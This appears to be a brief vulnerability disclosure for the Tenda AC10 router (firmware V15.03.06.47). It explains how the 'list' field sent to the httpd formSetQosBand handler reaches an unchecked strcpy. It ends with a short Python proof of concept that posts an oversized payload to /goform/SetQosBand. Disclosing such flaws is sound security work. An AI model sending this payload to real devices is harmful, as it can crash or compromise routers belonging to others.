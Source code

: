 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/formSetQosBand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](9.png)

get value from list ,then call setQosMiblist

![](10.png)

p equal list, if list have '\n', get into while

then call strcpy, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/SetQosBand"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'list': payload})
``` 
